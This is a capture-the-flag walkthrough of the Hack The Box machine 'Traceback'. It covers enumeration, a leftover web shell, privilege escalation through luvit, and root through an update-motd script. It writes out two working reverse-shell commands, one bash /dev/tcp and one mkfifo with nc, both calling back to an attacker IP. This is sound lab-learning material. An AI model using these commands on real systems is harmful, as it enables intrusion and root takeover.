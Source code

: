 ```yaml
---
title: "[HTB] Machine: Traceback"
description: "[HTB] Machine: Traceback"
date: 2023-06-29
menu:
  sidebar:
    name: "[HTB] Machine: Traceback"
    identifier: htb-machine-traceback
    parent: htb-machines-linux
    weight: 10
hero: images/traceback.png
tags: ["HTB", "webshell", "vim", "smevk", "lua", "luvit", "ssh", "motd", "linpeas", "linenum"]
---
```


# Traceback
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.181                   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-29 14:42 BST
Nmap scan report for 10.10.10.181 (10.10.10.181)
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9625518e6c830748ce114b1fe56d8a28 (RSA)
|   256 54bd467114bdb242a1b6b02d94143b0d (ECDSA)
|_  256 4dc3f852b885ec9c3e4d572c4a82fd86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.58 seconds

```
- Web server 

![](./images/1.png)

![](./images/2.png)

- Since we have a hint that there is a web shell left
  - We can the following [list](https://gist.github.com/sbnsec/352128ea5bd8c95f48d748d5f25e3639)
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.181 -w ./php-shells.txt -t  50
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.181
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                ./php-shells.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/29 16:39:39 Starting gobuster in directory enumeration mode
===============================================================
/smevk.php            (Status: 200) [Size: 1261]
Progress: 847 / 848 (99.88%)
===============================================================
2023/06/29 16:39:46 Finished
===============================================================
```
## Foothold
- Web shell

![](./images/3.png)

- Let's try default creds

![](./images/4.png)

![](./images/5.png)

- Let's get a reverse shell
  - Enter `bash -c 'bash -i >& /dev/tcp/10.10.16.7/6666 0>&1'` to `Execute` field

![](./images/6.png)

![](./images/7.png)

## User
- Found a note inside home folder
  - Also have `sudo` rights as sysadmin to execute [luvit](https://luvit.io/)

![](./images/8.png)

![](./images/9.png)

- Since we are tracing the path of the attacker
  - Checking the `.bash_history` reveals the privesc path

![](./images/13.png)

- We can try writing our key to `authorized_keys`
  - Let's write a script
  - And run it as `sysadmin`
  - ssh to box as `sysadmin` using the key

![](./images/10.png)

![](./images/11.png)

![](./images/12.png)

## Root
- After running `linpeas`, I launched `pspy`
  - Found a `cronjob` that restores the contents of `/etc/update-motd.d/`
  - They are owned by `sysadmin` group

![](./images/14.png)

![](./images/15.png)

- We saw that the `ssh` banner was changed
  - According to [man page](http://manpages.ubuntu.com/manpages/trusty/man5/update-motd.5.html)
    - `executed by pam_motd(8) as the root user at each  login,  and  this information is concatenated in /var/run/motd.  The order of script execution is determined by the run-parts(8) --lsbsysinit  option  basically  alphabetical order, with a few caveats).`

![](./images/16.png)

- We can append reverse shell into one of these files
  - Let's try it
  - `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.7 7777 >/tmp/f' >> 00-header`
  - Launch a listener and connect as `sysadmin` 
  - Rooted

![](./images/17.png)
